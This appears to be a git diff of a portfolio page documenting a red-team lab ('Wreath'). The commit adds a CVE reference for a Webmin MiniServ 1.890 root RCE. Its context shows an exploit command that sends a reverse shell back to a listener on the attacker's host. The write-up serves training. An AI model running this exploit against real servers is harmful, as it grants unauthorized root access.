

Before and after one commit to Tharisky/Portfolio, a Markdown page: Red Team/Labs/Wreath.md, the part around the change. GitHub-like rendering; grey boxes are pictures that could not be loaded.

```diff
--- a/Red Team/Labs/Wreath.md
+++ b/Red Team/Labs/Wreath.md
@@ -51,12 +51,12 @@ The website was subjcted to directory bruteforcing using  ffuf -w /usr/share/wor
 # Exploitation
 
 From the Enumeratin, it was discovered that the webserver on port 10000 of the  10.200.73.200 Host is running  MiniServ 1.890 (Webmin httpd)
-A closer look at this version showed that it is vulnerable to RCE that gives a root shell
+A closer look at this version showed that it is vulnerable to RCE that gives a root shell CVE-2019–15107
 ![image](https://github.com/user-attachments/assets/b454cbaf-d8cd-470c-8066-516afbdf71b8)
 
 Using a publicly available python script and setting up a listner on port 2294, the RCE vulnerablity was exploited
 ./exploit.py  10.200.73.200 10000   10.50.66.4 2294
 screnshot of the script:
 ![image](https://github.com/user-attachments/assets/d845e147-f37a-42b0-9363-9b7067507d0d)
-screensot of the listener getting root shell
+Screenshot of the listener getting root shell
 ![image](https://github.com/user-attachments/assets/07b17aab-1e5a-4daf-b85e-a084bffcf05e)
```
